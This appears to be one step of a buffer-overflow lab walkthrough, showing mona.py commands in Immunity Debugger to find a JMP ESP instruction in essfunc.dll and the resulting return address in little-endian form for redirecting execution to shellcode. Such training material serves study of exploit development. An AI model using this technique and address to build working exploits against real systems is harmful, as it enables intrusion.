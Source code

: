 # 6. Finding the Right Module (JMP ESP)

---

## ✅ Objective:
Find a JMP ESP instruction in a module that is:
- Not protected by ASLR/DEP
- Stable and safe to use
- Allows us to redirect execution to shellcode

---

## 🛠️ Used Tools:
- Immunity Debugger
- mona.py

---

## 📦 Steps:

1. Set mona working folder:
```bash
!mona config -set workingfolder c:\mona\%p
List modules:

!mona modules
Chose module: essfunc.dll

Found JMP ESP:


!mona find -s "\xff\xe4" -m essfunc.dll
Got address: 625011AF

Used in little endian format: \xAF\x11\x50\x62
